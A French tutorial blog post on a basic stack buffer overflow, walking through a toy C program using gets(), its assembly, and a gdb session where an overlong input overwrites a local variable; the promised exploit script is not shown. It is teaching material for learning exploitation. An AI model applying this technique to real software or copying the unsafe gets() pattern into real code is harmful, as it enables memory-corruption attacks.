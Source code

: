 # 

## The Bug
Le Buffer Overflow est un bug qui se produit lorsqu&#39;un programme ecrit dans un buffer plus de bytes que le buffer ne peut en accueillir. 
Ce que l&#39;on designe par le terme de buffer est une zone memoire dont le programme controle le contenu. Cela peut representer n&#39;importe quel element present en memoire (variables, constantes, zone memoire dynamique...).

Le probleme avec ce bug etant que le programme tout entier s&#39;appuie sur la memoire pour fonctionner. Ainsi en debordant du buffer le programme va potentiellement reecrire d&#39;autres elements presents en memoire et donc des element necessaire a son propre fonctionnement, ce qui va souvent provoquer un crash.

## Demonstration du Bug
Pour que ce soit plus parlant voici un exemple tres basique que l&#39;on va etudier en assembleur pour mieux comprendre le reel fonctionnement du programme et comment il interragit avec la memoire.
```c title:test.c
#include &lt;stdio.h&gt;

int main(){
	int check = 0;
	char buffer[16];

	gets(buffer);
	if (check == 0x1337)
		printf(&#34;Well Done!!&#34;);
	return 0;
}
```

### Analysis
Le programme est tres simple. Il defini une variable **check** qu&#39;il initialise a 0. Il defini ensuite un tableau de caracteres, que l&#39;on peu definir comme un buffer puisque un tableau de 16 carateres reprensente concretement une zone memoire de 16 bytes reservee a cette variable. Ensuite, il lit depuis l&#39;entree standard et save l&#39;input lu dans le buffer. Enfin, il verifie que la variable **check** est bien egale a **0x1337**.

Ca peut paraitre un peu bizarre. Pourquoi la variable check serait egale a 0x1337 si elle a ete initialisee a 0 et inchangee. Et bien peut etre que le programme est vulnerable et que l&#39;on peut reecrire la valeur de check 😈.

Si on s&#39;en referre a la man page de gets(), on se rend compte que la fonction gets() lit la premiere ligne de l&#39;entree standard (stdin) et la sauvegarde dans le buffer passe en parametre.
```md title:man_gets
DESCRIPTION

       gets()  reads  a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a
       null byte (&#39;\0&#39;).  No check for buffer overrun is performed (see BUGS below).
```

Wait, wait, wait... Si gets() lit la premiere ligne de stdin, et que notre buffer ne peut accueilir que 16 bytes, que se passe-t-il si la ligne lu fait plus de 16 bytes?

### Assembly
Pour le comprendre, regardons ce que fait le programme en bas niveau :
```nasm title:test.s
push   rbp
mov    rbp,rsp
sub    rsp,0x20
mov    DWORD PTR [rbp-0x4],0x0
lea    rax,[rbp-0x20]
mov    rdi,rax
mov    eax,0x0
call   0x1040 &lt;gets@plt&gt;
cmp    DWORD PTR [rbp-0x4],0x1337
jne    0x1186 &lt;main&#43;61&gt;
lea    rax,[rip&#43;0xe8b]        # 0x2004
mov    rdi,rax
mov    eax,0x0
call   0x1030 &lt;printf@plt&gt;
mov    eax,0x0
leave
ret
```

Concretement, il y a 2 parties interressantes a regarder :
- D&#39;abord, le programme va sauvegarder la valeur de check sur la stack.
```nasm
mov    DWORD PTR [rbp-0x4],0x0
```
- Ensuite il reserve une zone memoire de minimum 16 bytes (sur la stack) et passe son adresse en argunent a gets().
```nasm
lea    rax,[rbp-0x20]
mov    rdi,rax
mov    eax,0x0
call   0x1040 &lt;gets@plt&gt;
```

Ainsi, si on deroule l&#39;execution du programme notre stack va ressembler a quelque chose comme ca:
[SCHEMA]

### Exploit
Si on s&#39;interesse a ce que fait reelement la fonction gets(), elle prend tout simplement un adresse memoire (ici l&#39;adresse de notre buffer), et y ecrit les bytes lus depuis l&#39;entree standard. Le probleme est qu&#39;a l&#39;adresse de buffer&#43;0x1c, il y a la valeur de check. Donc si gets lit plus de 28 bytes, il va ecrire par dessus la valeur de check.
[SCHEMA]

Si on lance un debugger, qu&#39;on test notre exploit et qu&#39;on break sur l&#39;instruction qui verifie la valeur de check, on peut voir qu&#39;on a bien reecrit la valeur de check sauvegardee en memoire.
```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000001149 &lt;&#43;0&gt;:	push   rbp
   0x000000000000114a &lt;&#43;1&gt;:	mov    rbp,rsp
   0x000000000000114d &lt;&#43;4&gt;:	sub    rsp,0x20
   0x0000000000001151 &lt;&#43;8&gt;:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000001158 &lt;&#43;15&gt;:	lea    rax,[rbp-0x20]
   0x000000000000115c &lt;&#43;19&gt;:	mov    rdi,rax
   0x000000000000115f &lt;&#43;22&gt;:	mov    eax,0x0
   0x0000000000001164 &lt;&#43;27&gt;:	call   0x1040 &lt;gets@plt&gt;
   0x0000000000001169 &lt;&#43;32&gt;:	cmp    DWORD PTR [rbp-0x4],0x1337
   0x0000000000001170 &lt;&#43;39&gt;:	jne    0x1186 &lt;main&#43;61&gt;
   0x0000000000001172 &lt;&#43;41&gt;:	lea    rax,[rip&#43;0xe8b]        # 0x2004
   0x0000000000001179 &lt;&#43;48&gt;:	mov    rdi,rax
   0x000000000000117c &lt;&#43;51&gt;:	mov    eax,0x0
   0x0000000000001181 &lt;&#43;56&gt;:	call   0x1030 &lt;printf@plt&gt;
   0x0000000000001186 &lt;&#43;61&gt;:	mov    eax,0x0
   0x000000000000118b &lt;&#43;66&gt;:	leave
   0x000000000000118c &lt;&#43;67&gt;:	ret

(gdb) b *main&#43;32
Breakpoint 1 at 0x1169

(gdb) r
Starting program: /root/a.out
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

On inspecte le contexte dans lequel on a break dans gdb.
```
(gdb) x/i $rip
=&gt; 0x555555555169 &lt;main&#43;32&gt;:	cmp    DWORD PTR [rbp-0x4],0x1337

(gdb) x/wx $rbp-0x4
0x7fffffffe2dc:	0x42424242
```

On a donc bien reussi a overwrite la valeur de check 🙂.

### Scripting the Exploit
Pour finaliser la technique d&#39;exploitation, on va faire un petit script python qui va gerer toutes les interactions a notre place.



---

> Author:   
> URL: https://0xeg0.github.io/MyLittlePwney/pwn/stack-buffer-overflow/basic-overflow/  

